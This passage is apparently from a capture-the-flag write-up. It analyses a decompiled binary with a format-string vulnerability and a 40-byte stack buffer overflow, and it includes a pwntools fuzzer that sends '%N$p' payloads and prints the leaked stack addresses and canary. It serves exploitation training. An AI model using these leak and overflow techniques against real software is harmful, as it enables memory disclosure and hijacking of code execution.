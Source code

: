 However if we look at the decompiled code we immediately spot 2 major problems:

```c
1. read(0, user_in, v7 - 1);
2. printf("\n[*] So, your name is: ");
3. printf(user_in);
4. printf(aWhatANiceNameT);
5. read(0, buf, 110uLL);
6. puts(asc_13F8);
7. return __readfsqword(0x28u) ^ v12;
```

On line 3 there is a Format String Vulnerability that we can leverage to leak information from the stack. 

And on line 5 there is a stack smashing Vulnerability, the buffer it self is only 40 bytes long. This means that we can redirect code execution if we successfully overwrite the Instruction Pointer

![](./assets/20220131033901.png)

## Approach
First of all we have to know what type of data can we leak from the stack and where do these items reside, so i wrote a simple fuzzer to run the program, send a single input and then print what the output was.

```python
def fuzz():
	context.log_level = 'critical'
	for i in range(1, 200):
		io = start()
		sheet(io)
		io.recvuntil("> ")
		io.sendline(f"%{i}$p")
		io.recvuntil("So, your name is: ")
		print(f"{i} => {io.recvline().decode()}", end='')
		io.close()
```

And the output was the following (I've redacted some of the output):

```bash
...
2 => 0x7ff7e07348c0
...
19 => 0x560479000e17
...
31 => 0xd71a285a778cf900
```
